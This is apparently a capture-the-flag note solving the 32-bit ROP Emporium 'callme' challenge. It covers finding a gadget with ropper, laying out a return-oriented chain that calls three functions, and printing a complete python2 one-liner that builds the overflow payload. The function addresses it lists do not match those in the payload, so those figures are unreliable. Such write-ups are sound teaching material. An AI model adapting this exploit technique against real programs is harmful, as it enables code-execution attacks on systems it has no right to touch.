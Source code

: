 Links [[00 - Global Index (Start Here!)]] [[ROP Emporium]]

# [[callme]]
# Contents
***
- Task Description
- 32 bit

## Task Description
***
Reliably make consecutive calls to imported functions.  
Use some new techniques and learn about the Procedure Linkage Table.

## 32 bit
***
Reading the site we need to call three functions while passing in the same three arguments.

args:  `0xdeadbeef`, `0xcafebabe`, `0xd00df00d`
functions: callme_one(), callme_two(), callme_three()

Getting the memory locations of the three functions:
callme_one():     `0xf7fc0d3d`
callme_two():     `0xf7fc0755`
callme_three():   `0xf7fc0855`

We also need a a way to remove the arguments off the stack after before we add the next function or they wont populate correctly.
You can find this gadget by running ropper:
```bash
ropper -f callme32 --search pop

0x080487f9: pop esi; pop edi; pop ebp; ret; 
```
Using this memory location the exploit chain will look like this:

Offset
callme1
gadget
arg1
arg2
arg3
callme2
gadget
arg1
arg2
arg3
callme3
gadget
arg1
arg2
arg3

Next is to find the buffer size.
44

encode everything in little endian and send it to a payload.
```bash
python2 -c 'print "A"*44 + "\xf0\x84\x04\x08" + "\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0"+"\x50\x85\x04\x08"+"\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0" +"\xe0\x84\x04\x08" +"\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0"' > callme-32-payload
```

Which gives the flag :)
```flag
ROPE{a_placeholder_32byte_flag!}
```


---
Creation date: 13-10-2022

Last modified date: Thursday 13th October 2022
***
